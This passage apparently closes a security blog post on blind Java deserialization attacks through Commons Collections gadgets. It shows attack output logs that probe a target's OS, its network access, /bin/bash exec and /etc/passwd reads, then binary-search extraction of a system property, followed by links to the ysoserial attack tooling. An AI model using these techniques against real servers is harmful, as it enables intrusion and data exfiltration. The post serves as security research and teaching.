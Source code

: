 ```
OS: nux: false
OS: sun: false
OS: bsd: false

# Path on which ping resides
OS: /bin/ping false
OS: /sbin/ping true
OS: /usr/bin/ping false
OS: /usr/sbin/ping false
OS: /usr/local/bin/ping false

# Security manager checks &
# read, write, exec checks
Can connect to google.com:80: true
Can exec /bin/bash: true
Can read /etc/passwd: true
Can write to /tmp : true
Can write to /var/tmp : true

Going to extract property: os.name
```

### os.name {#osname}
Example of a property extraction from the system.

```
Going to extract property: os.name
Prepared alphabet: \x00\x09\x0a\x0b\x0c\x0d!\"#$%&'\(\)*+,\-\./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ\[\\\]\^_`abcdefghijklmnopqrstuvwxyz\{\|\}~\s
Num steps in binary search 6.6582114827517955
Going to find length of the string
String is null: false
String is empty: false
--Max length guess: 1
--Max length guess: 2
--Max length guess: 4
--Max length guess: 8
--Max length guess: 16
Length is between 7 and 16
--Length: 7 - 16, mid: 12
--Length: 7 - 11, mid: 9
--Length: 7 - 8, mid: 8
--[0]Range to test: [\x00\x09\x0a\x0b\x0c\x0d!\"#$%&'\(\)*+,\-\./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ\[\\\]\^_`abcdefghijklmnopqrstuvwxyz\{\|\}~\s]
--[0000]Length: 000 - 101, mid: 051. y: 1, range: [\x00\x09\x0a\x0b\x0c\x0d!\"#$%&'\(\)*+,\-\./0123456789:;<=>?@ABCDEFGHIJKLM]                         vs [NOPQRSTUVWXYZ\[\\\]\^_`abcdefghijklmnopqrstuvwxyz\{\|\}~\s]
--[0000]Length: 000 - 051, mid: 026. y: 0, range: [\x00\x09\x0a\x0b\x0c\x0d!\"#$%&'\(\)*+,\-\./01234]                         vs [56789:;<=>?@ABCDEFGHIJKLM]
--[0000]Length: 026 - 051, mid: 039. y: 0, range: [56789:;<=>?@A]                         vs [BCDEFGHIJKLM]
--[0000]Length: 039 - 051, mid: 045. y: 0, range: [BCDEFG]                         vs [HIJKLM]
--[0000]Length: 045 - 051, mid: 048. y: 0, range: [HIJ]                         vs [KLM]
--[0000]Length: 048 - 051, mid: 050. y: 0, range: [KL]                         vs [M]
--[0]=✂M✂
--[1]Range to test: [\x00\x09\x0a\x0b\x0c\x0d!\"#$%&'\(\)*+,\-\./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ\[\\\]\^_`abcdefghijklmnopqrstuvwxyz\{\|\}~\s]
--[0001]Length: 000 - 101, mid: 051. y: 0, range: [\x00\x09\x0a\x0b\x0c\x0d!\"#$%&'\(\)*+,\-\./0123456789:;<=>?@ABCDEFGHIJKLM]                         vs [NOPQRSTUVWXYZ\[\\\]\^_`abcdefghijklmnopqrstuvwxyz\{\|\}~\s]
--[0001]Length: 051 - 101, mid: 076. y: 1, range: [NOPQRSTUVWXYZ\[\\\]\^_`abcdef]                         vs [ghijklmnopqrstuvwxyz\{\|\}~\s]
```

[Part 1]: https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html
[ysoserial]: https://github.com/frohoff/ysoserial
[extended ysoserial]: https://github.com/yolosec/ysoserial
[Deserialize test server]: https://github.com/yolosec/deserialize-server
[Generator.java]: https://github.com/yolosec/ysoserial/blob/master/src/main/java/ysoserial/blind/Generator.java
[Attack.java]: https://github.com/yolosec/ysoserial/blob/master/src/main/java/ysoserial/blind/Attack.java
[GeneratorTest.java]: https://github.com/yolosec/ysoserial/blob/master/src/test/java/ysoserial/blind/GeneratorTest.java
[AttackTest.java]: https://github.com/yolosec/ysoserial/blob/master/src/test/java/ysoserial/blind/AttackTest.java
[Affected versions]: https://commons.apache.org/proper/commons-collections/security-reports.html#Apache_Commons_Collections_Security_Vulnerabilities
[Java-Deserialization-Cheat-Sheet]: https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
[Understanding ysoserial's CommonsCollections1 exploit]: http://gursevkalra.blogspot.cz/2016/01/ysoserial-commonscollections1-exploit.html
[What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability]: https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#exploitdev